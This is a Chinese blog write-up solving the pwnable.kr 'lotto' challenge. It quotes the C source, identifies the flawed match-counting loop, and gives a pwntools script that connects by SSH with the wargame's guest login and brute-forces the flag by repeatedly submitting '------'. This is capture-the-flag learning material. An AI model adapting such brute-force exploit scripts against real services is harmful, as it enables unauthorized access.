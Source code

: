 ```yaml
---
title: kr_lotto
date: 2020-01-26 22:30:25
tags:
- pwn
- pwnable.kr
---
```


# pwnable.kr lotto

### 0x1 分析

看一下c文件吧。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

	int i;
	printf("Submit your 6 lotto bytes : ");
	fflush(stdout);

	int r;
	r = read(0, submit, 6);

	printf("Lotto Start!\n");
	//sleep(1);

	// generate lotto numbers
	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1){
		printf("error. tell admin\n");
		exit(-1);
	}
	unsigned char lotto[6];
	if(read(fd, lotto, 6) != 6){
		printf("error2. tell admin\n");
		exit(-1);
	}
	for(i=0; i<6; i++){
		lotto[i] = (lotto[i] % 45) + 1;		// 1 ~ 45
	}
	close(fd);

	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}

}

void help(){
	printf("- nLotto Rule -\n");
	printf("nlotto is consisted with 6 random natural numbers less than 46\n");
	printf("your goal is to match lotto numbers as many as you can\n");
	printf("if you win lottery for *1st place*, you will get reward\n");
	printf("for more details, follow the link below\n");
	printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
	printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

	// menu
	unsigned int menu;

	while(1){

		printf("- Select Menu -\n");
		printf("1. Play Lotto\n");
		printf("2. Help\n");
		printf("3. Exit\n");

		scanf("%d", &menu);

		switch(menu){
			case 1:
				play();
				break;
			case 2:
				help();
				break;
			case 3:
				printf("bye\n");
				return 0;
			default:
				printf("invalid menu\n");
				break;
		}
	}
	return 0;
}
```

看起来重点在这里：

```c
// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}
```

之前一直以为有什么漏洞可以利用，但是。发现实力有限。找不到。🤷‍♂️

那就得在这里做文章。但是。貌似看了别人的writeup。只能由爆破这个路子。

那就爆破吧。只要匹配$1-45$ 范围`6`次就行了。那就随便找一个好了。

| [二进制](https://zh.wikipedia.org/wiki/二进制) | [十进制](https://zh.wikipedia.org/wiki/十进制) | [十六进制](https://zh.wikipedia.org/wiki/十六进制) |  [图形](https://zh.wikipedia.org/wiki/图形)   |
| :--------------------------------------------: | :--------------------------------------------: | :------------------------------------------------: | :-------------------------------------------: |
|                   0010 0000                    |     [32](https://zh.wikipedia.org/wiki/32)     |                         20                         | ([space](https://zh.wikipedia.org/wiki/空格)) |
|                   0010 0001                    |     [33](https://zh.wikipedia.org/wiki/33)     |                         21                         |   [!](https://zh.wikipedia.org/wiki/惊叹号)   |
|                   0010 0010                    |     [34](https://zh.wikipedia.org/wiki/34)     |                         22                         |   ["](https://zh.wikipedia.org/wiki/双引号)   |
|                   0010 0011                    |     [35](https://zh.wikipedia.org/wiki/35)     |                         23                         |    [#](https://zh.wikipedia.org/wiki/井號)    |
|                   0010 0100                    |     [36](https://zh.wikipedia.org/wiki/36)     |                         24                         |     [$](https://zh.wikipedia.org/wiki/$)      |
|                   0010 0101                    |     [37](https://zh.wikipedia.org/wiki/37)     |                         25                         |   [%](https://zh.wikipedia.org/wiki/百分比)   |
|                   0010 0110                    |     [38](https://zh.wikipedia.org/wiki/38)     |                         26                         |    [&](https://zh.wikipedia.org/wiki/%26)     |
|                   0010 0111                    |     [39](https://zh.wikipedia.org/wiki/39)     |                         27                         |   ['](https://zh.wikipedia.org/wiki/单引号)   |
|                   0010 1000                    |     [40](https://zh.wikipedia.org/wiki/40)     |                         28                         |    [(](https://zh.wikipedia.org/wiki/括號)    |
|                   0010 1001                    |     [41](https://zh.wikipedia.org/wiki/41)     |                         29                         |    [)](https://zh.wikipedia.org/wiki/括號)    |
|                   0010 1010                    |     [42](https://zh.wikipedia.org/wiki/42)     |                         2A                         |    [*](https://zh.wikipedia.org/wiki/星号)    |
|                   0010 1011                    |     [43](https://zh.wikipedia.org/wiki/43)     |                         2B                         |    [+](https://zh.wikipedia.org/wiki/加号)    |
|                   0010 1100                    |     [44](https://zh.wikipedia.org/wiki/44)     |                         2C                         |    [,](https://zh.wikipedia.org/wiki/逗号)    |
|                   0010 1101                    |     [45](https://zh.wikipedia.org/wiki/45)     |                         2D                         |    [-](https://zh.wikipedia.org/wiki/减号)    |

这是可视范围内的字符。（不可视范围也可以。）

随缘构造字符串`payload = '------'`。开始爆破。

### 0x2 EXP

```python
from pwn import *

context.log_level = 'debug'
s = ssh(host='pwnable.kr', user='lotto', password='guest', port=2222)
r = s.process('/home/lotto/lotto')
payload = '------'

r.sendlineafter("3. Exit\n", '1')
r.sendlineafter("Submit your 6 lotto bytes : ", payload)
str = r.recv()
print str
if  "bad luck...\n" in str:
	while 1:
		r.sendlineafter("3. Exit\n", '1')
		r.sendlineafter("Submit your 6 lotto bytes : ", payload)
		str = r.recv()
		if "bad luck...\n" in str:
			print str
		else :
		 	print str
			break
```



